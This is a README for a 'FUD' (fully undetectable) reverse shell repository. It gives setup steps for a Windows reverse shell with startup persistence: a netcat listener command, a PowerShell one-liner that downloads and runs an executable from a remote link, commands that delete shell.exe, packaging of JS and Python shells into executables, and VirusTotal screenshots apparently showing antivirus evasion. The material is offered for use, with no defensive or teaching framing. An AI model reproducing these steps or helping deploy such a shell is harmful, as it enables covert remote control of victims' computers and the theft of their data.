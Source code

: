 ## Setup:
<img style="border-radius: 15px; display: block; margin-left: auto; margin-right: auto; margin-bottom:20px;" width="70%" src="https://raw.githubusercontent.com/Ayhuuu/Fud-Reverse-Shell/main/img/ss.png"></img>

```d
» sample commands

» if you want to know username and file location name type pwd


» Extract from Zip: Expand-Archive -Path C:\Users\{Username}\Downloads\lol.zip -DestinationPath C:\Users\{Username}\Downloads\3162


» creates new folder: New-Item -ItemType Directory -Path "C:\Users\{Username}\Downloads\New Folder"


» app deletes: Remove-Item "C:\Users\{Username}\Downloads\shell.exe"


» The program downloads: powershell -c "(New-Object System.Net.WebClient).DownloadFile('https://YourDownloadLink/program.exe', 'C:\Users\{Username}\Downloads\Program.exe')"



» Runs the program: powershell -c "Start-Process C:\Users\{Username}\Downloads\downloaded_file.exe"


» Copies the file from one place to another: scp C:\Users\Administrator\Downloads\program.exe C:\Users\Administrator\Desktop\program.exe
```d
» Reverse shell + Windows Startup

» Change the 127.0.0.1 ip address in the codes according to yourself

» Change the 4444 port in the codes according to your own

» if you are using windows you need to download netcat first
[install netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip) 

» After downloading open cmd as administrator

» After opening cmd, go to the file location where netcat is located from cmd and type this:

nc64.exe -nvlp `Your Port`

» if you want to exe js code first Install [Node.js](https://nodejs.org/en/download/) 

» to make exe from js 

`npm install pkg`

`pkg shell.js`


» js to exe virustotal result

<img style="border-radius: 15px; display: block; margin-left: auto; margin-right: auto; margin-bottom:20px;" width="55%" src="https://raw.githubusercontent.com/Ayhuuu/Fud-Reverse-Shell/main/img/js.png"></img>

» runs install_python.bat if python is installed

» to make exe from python

» open cmd and type 

`pip insall pyinstaller`

`pyinstaller --onefile --windowed shell.py`

» py to exe virustotal result 

<img style="border-radius: 15px; display: block; margin-left: auto; margin-right: auto; margin-bottom:20px;" width="55%" src="https://raw.githubusercontent.com/Ayhuuu/Fud-Reverse-Shell/main/img/python.png"></img>

» vbs does not need an installation, just double click

» vbs virustotal result 

<img style="border-radius: 15px; display: block; margin-left: auto; margin-right: auto; margin-bottom:20px;" width="55%" src="https://raw.githubusercontent.com/Ayhuuu/Fud-Reverse-Shell/main/img/vbs.png"></img>
